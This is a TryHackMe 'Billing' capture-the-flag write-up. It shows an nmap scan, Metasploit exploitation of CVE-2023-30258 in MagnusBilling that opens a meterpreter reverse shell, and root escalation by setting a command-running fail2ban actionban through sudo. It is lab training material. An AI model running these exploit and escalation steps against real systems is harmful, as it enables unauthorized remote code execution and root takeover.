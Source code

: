 ```yaml
---
title: "TryHackMe: Billing"
author: cyb3rgh0u1
categories: [TryHackMe]
description: Exploit a well-known CVE to gain initial access, then elevate privileges by leveraging fail2ban.
tags: [web, rce, fail2ban, magnusbilling, metasploit]
render_with_liquid: false
media_subpath: /assets/img_dir/Billing_THM/
image: 
  path: billing.webp
  alt: Room Image
  
---
```


## Description

In the [**Billing TryHackMe**](https://tryhackme.com/room/billing) challenge, we'll exploit **CVE-2023-30258** to gain initial access to the **MagnusBilling** platform via unauthenticated remote code execution. Then, escalate privileges by abusing a misconfigured **fail2ban service** to achieve root access.


[![Billing](billing_1.png)](https://tryhackme.com/room/billing){: .center }


## Enumeration

Start with an nmap scan to identify open ports and services:

```shell
❯ nmap 10.10.254.59 -sC -sV

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-20 13:59 UTC
Nmap scan report for 10.10.254.59
Host is up (0.37s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.254.59/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 42.36 seconds
```

Open Ports Identified:

    22/tcp: SSH (OpenSSH 8.4p1)
    80/tcp: HTTP (Apache 2.4.56)
    3306/tcp: MySQL (MariaDB 10.3.23 or earlier)

Let's start by focusing on HTTP website, since the other three ports don’t seem to offer anything noteworthy at the moment. If you look closely to the scanning output, there’s an application called MagnusBilling running. A quick Google search of that application reveals a known vulnerability, [CVE-2023-30258](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/), and it turns out there’s a Metasploit exploit available for it.


[![Google Search](billing_2.png)](https://tryhackme.com/room/billing){: .center }


## Exploitation

Launch Metasploit and configure the exploit:

```shell
msf6 > search magnusbilling_unauth_rce_cve_2023_30258

Matching Modules
================
   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.254.59
RHOSTS => 10.10.254.59

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.13.82.190
LHOST => 10.13.82.190

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.13.82.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.254.59:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.83 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.254.59
[+] Deleted CCfDLivv.php
[*] Meterpreter session 1 opened (10.13.82.190:4444 -> 10.10.254.59:42936) at 2025-03-20 19:26:50 +0000
```

Drop into a shell and upgrade it to a full TTY:


```shell
meterpreter > shell
Process 1545 created.
Channel 0 created.

python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ 
```
>Note: The Python PTY module [docs](https://docs.python.org/3/library/pty.html) upgrades the shell to a fully interactive TTY. Learn more about TTYs [here](https://0xffsec.com/handbook/shells/full-tty/).

Now, locate the user.txt flag:

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ cd /home
asterisk@Billing:/home$ ls
magnus
asterisk@Billing:/home$ cd magnus
asterisk@Billing:/home/magnus$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
asterisk@Billing:/home/magnus$ cat user.txt
THM{USER_FLAG_HERE}
````

## Privilege Escalation

Check for sudo privileges:

```shell
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

The user asterisk can run `/usr/bin/fail2ban-client` as root without a password. Verify that fail2ban is running:

```shell
asterisk@Billing:/home/magnus$ systemctl status fail2ban
● fail2ban.service - Fail2Ban Service
     Loaded: loaded (/lib/systemd/system/fail2ban.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2025-03-20 10:20:01 HDT; 36min ago
       Docs: man:fail2ban(1)
    Process: 526 ExecStartPre=/bin/mkdir -p /run/fail2ban (code=exited, status=0/SUCCESS)
   Main PID: 542 (fail2ban-server)
      Tasks: 19 (limit: 2268)
     Memory: 27.4M
        CPU: 6.366s
     CGroup: /system.slice/fail2ban.service
             └─542 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

`fail2ban-client` allows us to manipulate jail actions. We can abuse the actionban parameter to execute commands as root. Set a malicious actionban command to copy root.txt to a readable location:

```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
```

Trigger the action by banning an IP (e.g., localhost):


```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
1
```

>Note: If the file doesn’t appear, ensure fail2ban is running (sudo /usr/bin/fail2ban-client restart) and retry the above 2 steps again.

Read the flag:

```shell
asterisk@Billing:/home/magnus$ cat /tmp/root.txt
THM{ROOT_FLAG_HERE}
```

## Conclusion

By exploiting CVE-2023-30258, we gained initial access as the asterisk user via Metasploit. Then, leveraging a misconfigured fail2ban service with sudo privileges, we escalated to root and captured both flags. This challenge highlights the dangers of unpatched software and overly permissive configurations.
